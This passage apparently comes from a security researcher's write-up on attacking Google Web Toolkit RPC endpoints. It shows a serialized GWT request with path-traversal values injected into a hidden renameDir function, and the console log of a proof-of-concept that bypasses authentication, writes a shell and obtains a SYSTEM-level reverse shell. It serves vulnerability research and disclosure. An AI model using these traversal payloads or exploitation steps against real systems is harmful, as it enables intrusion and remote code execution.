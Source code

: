 ```bash
(27) function: set 
```

So we can see that `gwt.py` will not parse cache files that are obfuscated, you will have to use `gwtenum.py` for that.

#### <a id="exploits"></a>Exploitation

Several functions were vulnerable to different types of attacks but one of the interesting functions I came across, was the renameDir function. This function either wasn't implemented in the actual UI of the target or at the very least I couldn't find it. This is not an issue because as long at the client MIBFileService class impliments it, we can reach it. We can use `gwt.py` to generate the GWT serialized string for us.

```bash
(20) function: renameDir 
(20) number of parameters: 2 
(20) parameters: oldName, newName 
(20) GWT: 6|0|8|https://abc.xyz/some_gwt/|EA595041C3D0ECAA75FAA7D8AAF0DE5A|xx.MIBFileService|renameDir|java.lang.String/2004016611|java.lang.String/2004016611|%s|%s|1|2|3|4|2|5|6|7|8|
```

The code tells us the parameters, **oldName** and **newName** so my natural instict is to try and attack the endpoint using traversals. I didn't even bother looking at the server-side code for this function.

```
6|0|8|https://abc.xyz/some_gwt/|EA595041C3D0ECAA75FAA7D8AAF0DE5A|xx.MIBFileService|renameDir|java.lang.String|java.lang.String|../../../../../from_some_folder|../../to_some_other_folder|1|2|3|4|2|5|6|7|8|
```

After bypassing the authentication using other vulnerabilities, it turns out, I can leverage this to achieve remote code execution against my target.

```
saturn:~ mr_me$ ./poc.py 172.16.175.148 172.16.175.1:4444

  Some Target Remote Code Execution Zero Day
  mr_me 2017

(1) bypassing authentication...
(2) leaking a user session...
(+) leaked session: D6D5B3A7ECE0FEF704F93249A7AD3AF6
(3) leaking the viewState...
(4) writing a shell...
(5) rewriting shell location...
(6) executing shell...
(+) starting handler on port 4444
(+) connection from 172.16.175.148
(+) pop thy shell!
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system

C:\Windows\System32>
```


[attackinggwt]: https://www.owasp.org/images/7/77/Attacking_Google_Web_Toolkit.ppt
[gwtrpc]: https://docs.google.com/document/d/1eG0YocsYYbNAtivkLtcaiEE5IOF5u4LUol8-LL0TIKU/
[group]: https://groups.google.com/forum/?fromgroups#!forum/google-web-toolkit
[rfc]: http://www.rfc-editor.org/rfc/rfc4648.txt
[toolkit]: https://github.com/GDSSecurity/GWT-Penetration-Testing-Toolset
[CVE-2015-2606]: http://www.zerodayinitiative.com/advisories/ZDI-15-352/
[gwt.py]: https://github.com/sourceincite/tools/blob/master/gwt.py
[example]: https://docs.google.com/document/d/1eG0YocsYYbNAtivkLtcaiEE5IOF5u4LUol8-LL0TIKU/edit#heading=h.nwvro3zaq0ks